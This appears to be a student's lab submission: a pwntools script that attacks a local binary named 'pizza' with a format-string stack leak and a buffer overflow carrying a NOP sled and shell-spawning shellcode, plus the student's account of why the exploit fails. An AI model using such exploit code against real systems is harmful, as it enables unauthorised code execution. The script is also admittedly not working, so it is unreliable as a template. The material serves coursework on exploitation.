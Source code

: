 # Code
```
  from pwn import *

  elf = ELF("./pizza")

  context(arch='amd64', os='linux', endian='little', word_size=64)
  getname_address = elf.symbols["getname"]
  input1 = b"%p " * 20

  victim = process("./pizza")
  victim.sendline(input1)
  victim.recvline()

  stack_addresses = victim.recvline().strip().split()
  stack_addresses = stack_addresses[7:]
  stack_offset = int(stack_addresses[3], 16)

  return_address = p64(stack_offset)
  exploit_payload = b"A" * 2000 + return_address + b"\x90" * 100 + asm(shellcraft.amd64.linux.sh())

  victim.sendline(exploit_payload)
  victim.interactive()
```

# Explanation
For this code, I set it up to be similar to what we had done in class, with the code to use pwntools and get formatting of everything right. Then I had it inject the %p 20 times into the code so that way I could the stack addresses starting at index 7 and going to the end since that was where my stack addressed would actually begin. Then I tried to calculate the stack offset to see where the return address would be so that I could inject shellcode into it as well as enough 'A's to ensure the program would crash so that my shellcode could take over. Then it would keep going with the shellcode as the new interactive process.

For some reason when I did all this, I got it to do the shell thing with the $ but when I put anything in it, the pizza code took it as input and would keep doing it's thing but using whatever shell commands I wrote were just used as the input it wanted for the program until it got to the end of it, so I think I have an issue with finding the right part of the stack to put my shellcode into but I'm not 100% about that. It's what ChatGPT said was most likely the issue but I couldn't figure out how to fix it.
